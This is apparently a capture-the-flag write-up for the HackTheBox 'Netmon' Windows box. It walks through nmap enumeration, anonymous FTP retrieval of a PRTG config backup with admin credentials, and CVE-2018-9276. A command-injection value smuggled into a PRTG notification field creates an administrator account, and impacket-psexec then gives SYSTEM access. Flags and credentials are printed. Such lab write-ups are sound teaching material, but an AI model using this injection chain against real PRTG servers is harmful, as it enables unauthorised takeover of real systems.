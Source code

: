 # Netmon

**OS:** Windows  
**Difficulty:** Easy

---

## Engagement Overview

- **Target:** Netmon  
- **Box IP:** 10.10.10.152  
- **Local IP:** 10.10.14.16  
- **Date:** 2025-07-22

---

## Objectives

- Gain root access

---

## Service Enumeration

### Nmap Summary
```bash
nmap -sCV -oA nmap.txt 10.10.10.152
```

**Open Ports and Services:**
- **21/tcp** - FTP: Microsoft ftpd  
  - Anonymous login allowed
  - Exposed directory structure with config files
- **80/tcp** - HTTP: Indy httpd (Paessler PRTG)  
  - Version: 18.1.37.13946
  - Web interface accessible
- **135, 139, 445/tcp** - Windows RPC / SMB  
  - Windows Server 2008 R2 - 2012
  - Message signing not required
- **5985/tcp** - Microsoft HTTPAPI

**Host Notes:**
- SMB: Message signing disabled
- Anonymous access enabled

---

## Initial Access

### Vulnerability

- **CVE-2018-9276** – Authenticated RCE via PRTG Notifications

### Approach

1. Logged into FTP using anonymous access:
   - Discovered backup files:
     ```
     PRTG Configuration.old.bak
     ```
   - Downloaded `.bak` config file via FTP

2. Extracted credentials from config file:
   ```
   user: prtgadmin
   pass: PrTg@dmin2019
   ```

3. Logged into PRTG web interface at `http://10.10.10.152`:
   - Version: 18.1.37.13946
   - Vulnerable to CVE-2018-9276

---

## Privilege Escalation

### Exploit Method

- Injected reverse shell payload into the **PRTG Notification** system:
  ```plaintext
  abc.txt | net user htb abc123! /add & net localgroup administrators htb /add
  ```

- Executed the notification, then used `impacket-psexec` with the new user:
```bash
impacket-psexec htb:'abc123!'@10.10.10.152
```

### Result

- Logged in as **NT AUTHORITY\SYSTEM**
- Retrieved root flag successfully:
  ```
  C:\Users\Administrator\Desktop> type root.txt
  1fd2f7f093ba33f259d228549f100af6
  ```

---

## Post-Exploitation

### Flags

- **User Flag:** `1cfe7df9dbd51bcb426b0b8407544209`
- **Root Flag:** `1fd2f7f093ba33f259d228549f100af6`

### Credentials Dumped

- `prtgadmin` / `PrTg@dmin2019`

---

## Tools Utilized

- Nmap  
- FTP  
- Impacket (psexec.py)  
- Metasploit (optional, noted in research)

---

## House Cleaning

- No persistent users or shells left
- Access obtained and closed out after flag retrieval

---

## Key Takeaways

- Classic CVE exploitation with real-world software (PRTG)
- Importance of scanning for backup config files on exposed FTP
- Enumeration + light analysis = full box compromise
